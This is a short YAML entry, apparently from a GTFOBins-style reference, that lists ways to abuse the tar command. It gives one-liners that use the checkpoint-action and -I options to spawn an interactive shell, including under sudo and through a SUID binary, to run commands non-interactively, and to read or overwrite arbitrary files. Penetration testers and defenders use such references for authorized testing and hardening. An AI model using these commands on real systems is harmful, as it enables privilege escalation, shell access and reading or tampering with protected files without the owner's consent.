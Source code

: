 ```yaml
---
functions:
  execute-interactive:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  execute-non-interactive:
    - description: This only works for GNU tar.
      code: tar xf /dev/null -I '/bin/sh -c "id 1>&2"'
  sudo-enabled:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  suid-limited:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  file-write:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo data > "$TF"
        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
  file-read:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_read
        tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
---
```

